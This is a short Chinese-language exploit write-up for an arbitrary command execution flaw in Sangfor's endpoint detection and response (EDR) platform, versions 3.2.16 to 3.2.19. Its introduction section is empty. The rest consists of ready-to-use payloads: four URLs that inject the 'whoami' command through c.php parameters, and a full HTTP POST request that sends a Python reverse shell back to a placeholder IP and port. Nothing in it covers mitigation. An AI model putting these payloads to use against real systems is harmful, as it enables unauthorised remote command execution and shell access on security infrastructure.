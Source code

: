 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（一）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

### payload：

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&limit=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&host=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&path=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&row=whoami

![1.png](resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(一)/media/rId25.png)

### 反弹shell payload

    POST /tool/log/c.php HTTP/1.1
    Host: www.0-sec.org
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
    DNT: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded;charset=utf-8
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=b1464478cad68327229d8f46e60d0a08; _ga=GA1.4.112365795.1597799903; _gid=GA1.4.1225783590.1597799903
    Content-Length: 256

    strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
